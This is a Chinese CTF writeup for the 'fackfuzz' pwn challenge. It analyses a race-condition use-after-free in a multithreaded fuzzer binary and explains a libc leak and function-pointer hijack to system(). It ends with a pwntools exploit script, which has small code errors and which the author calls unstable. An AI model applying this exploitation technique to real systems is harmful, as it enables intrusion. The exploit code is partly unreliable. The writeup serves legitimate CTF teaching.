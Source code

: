 ```yaml
---
layout: post
title: 安恒杯武汉大学邀请赛fackfuzz Writeup
categories: [CTF,Writeup]
description: 安恒杯武汉大学邀请赛AD模式的第二道pwn题，是一道多线程竞态条件的题目
keywords: fackfuzz, Writeup, 武汉大学邀请赛
---
```


# 安恒杯武汉大学邀请赛fackfuzz Writeup

题目文件与binary文件下载:https://github.com/A7um/CTF_exploits/tree/master/fackfuzz

## 漏洞分析

这道题目是我的一个本科同学出的，也是CTF中比较少见的多线程竞态条件的题目，我觉得这个题目出的还是蛮好的，于是就写一下writeup。
运行一下可执行程序，可以看到此程序是一个驱动的fuzz程序

```
---->fack driver fuzzing<----
1. add a driver to fuzz
2. prepare fuzz data
3. start fuzzing
4. stop fuzzing
5. view driver list
6. exit
```

*	add a driver to fuzz 会分配一个形为
	{drivername readfuzzer writefuzzer ioctlfuzzer}的结构体
*	prepare fuzz data会分配一个结构体，包含start fuzzing时调用的函数所需参数
*	start fuzzing会启用三个fuzz的线程分别对驱动进行不断读、写、以及ioctl。
*	stop fuzzing会free掉在add driver和prepare data所分配的结构体。
*	view driver list会查看当前已添加的driver的driver name列表

程序的漏洞存在于函数**sub_401336**中

```
void __fastcall __noreturn freethread(void *a1)
{
  int idx; // [rsp+1Ch] [rbp-4h]@1
  idx = *(_DWORD *)a1;
  currentidx = idx;
  isstop[idx] = 1;
  free(ptr[idx]);
  puts("wait for fuzz thread done");
  sleep(3u);
  ptr[idx] = 0LL;
  if ( threadnum < 0 )
    threadnum = 0;
  free(data[idx]);
  data[idx] = 0LL;
  puts("stop this fuzz done!");
  pthread_exit(0LL);
}
```

此函数会在调用stop fuzzing的时候以pthread_create创建新进程的形式运行。由于free之后会有一个3秒的间隔。这个间隔原意是等待fuzz线程的结束，但是也导致了一个竞态条件的漏洞。

在调用stop fuzzing之后，ptr[idx]会被free掉，但是ptr[idx]在3秒内并没有置0，所以通过这个竞态条件来构造use after free漏洞。

## 漏洞利用

### 泄漏libc地址

当ptr[idx]被free掉之后，原本的driver name因为堆块被free会被覆盖成unsortbin的地址，如果主线程再次调用view driver list，即可拿到unsortbin的地址，这是一个libc的data段的地址，根据这个地址我们可以算出system函数地址。

### 劫持控制流

以下函数为stop fuzzing的处理函数,该函数通过比对driver name获取一个idx，最终这个idx会作为函数**sub_401336**中的idx。

```
__int64 stopfuzz()
{
  signed int i; // [rsp+Ch] [rbp-74h]@3
  char s2; // [rsp+10h] [rbp-70h]@1
  __int64 v3; // [rsp+78h] [rbp-8h]@1

  v3 = *MK_FP(__FS__, 40LL);
  puts("input the driver name to stop fuzzing:");
  readn((__int64)&s2, 0x68uLL);
  if ( (unsigned int)checkname(&s2) )
  {
    for ( i = 0; i <= 9; ++i )
    {
      if ( ptr[i] && !strcmp(ptr[i], &s2) )
      {
        stop(i);
        return *MK_FP(__FS__, 40LL) ^ v3;
      }
    }
    puts("error name");
  }
  else
  {
    puts("invalid name");
  }
  return *MK_FP(__FS__, 40LL) ^ v3;
}
```

但是，如果我们如果按照以下顺序进行调用

1. add a new driver
2. prepare fuzz data
3. prepare fuzz data
4. stop fuzzing
5. add a new driver
6. stop fuzzing
7. prepare fuzz data

调用1 2 3会为ptr[0] data[0] data[1]分配内存，调用会释放ptr[0]的所对应的块，但是由于ptr[0]在3秒内并不会被置空。

5被调用后，ptr[1]会被重新分配ptr[0]所指向的内存，也就是说ptr[0]与ptr[1]指向的是同一块内存，

接着调用6，ptr[0]与ptr[1]所指向的内存会被再次free，由于ptr[0]与ptr[1]指向同一块内容，所以根据stop fuzzing的处理函数的逻辑，只有ptr[0]会被在3秒后置0，ptr[1]则会指向一个被free的内存块

最后调用7，将ptr[1]所指向的内存重新分配到字符串readdata中，通过对readdata进行修改即可控制ptr[1]所指向的带有函数指针的结构体的值。从而劫持控制流。

值得一提的是，由于我们拿到的shell是子线程的shell，所以我们无法直接与该shell进行交互，我们可以通过system("cat flag")拿到flag。

## exploit代码

```
from pwn import *;
from time import sleep;
port=8888
objname = "fackfuzz"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)

def readuntil(delim):
    data = io.recvuntil(delim);
    print data;
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,1);
    print data;
    return data;

def write(data):
    sleep(0.05)
    io.send(str(data));
    
def writeline(data):
    sleep(0.05)
    io.sendline(str(data));

def padding(size):
    cf = "/bin/shcat/home/ctf/flag";
    paddata = "";
    for i in range(size):
        paddatax += cf[i%len(cf)];
    return paddata;

def newdriver(name):
    writeline(1);
    writeline(name)
    readall()
def prepare(readsize,readdata):
    writeline(2);
    writeline(readsize);
    writeline(readdata);
    writeline(2);
    writeline(1);
    writeline(1);
    writeline(1);
    writeline(1);
    readall()
def startfuzz(name):
    writeline(3);
    writeline(name);
    readall();
def stopfuzz(name):
    writeline(4);
    writeline(name);
    readall();
def viewdriver():
    writeline(5);
    print readuntil(":");
    return readuntil("\n")[:-1];

def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    newdriver("/dev/haha1");
    prepare(10,"haha1")
    prepare(50,"cat flag > /dev/fd/1\x00")
    stopfuzz("/dev/haha1");
    usortbin=viewdriver();
    usortbin=usortbin+(8-len(usortbin))*'\x00';
    usortbin=u64(usortbin);
    system=usortbin-0x378178
    print hex(system);
    newdriver("/dev/haha3");0x01e36010
    stopfuzz("/dev/haha3");
    sleep(4)
    
    payload="/dev/haha4\x00"
    payload+=(0x68-len(payload))*"A";
    payload+=p64(system)*3;
    prepare(0x88,payload);
    print viewdriver()
    
    startfuzz("/dev/haha4");
    sleep(3)
    readall()#get flag

attack()
```

**此exploit理论上应该没问题，但是实际攻击的时候却不是很稳定，有时候得不到flag，我调试了很久也没有找到原因，还希望找到原因的同学联系我分享一下你的想法,感激不尽**
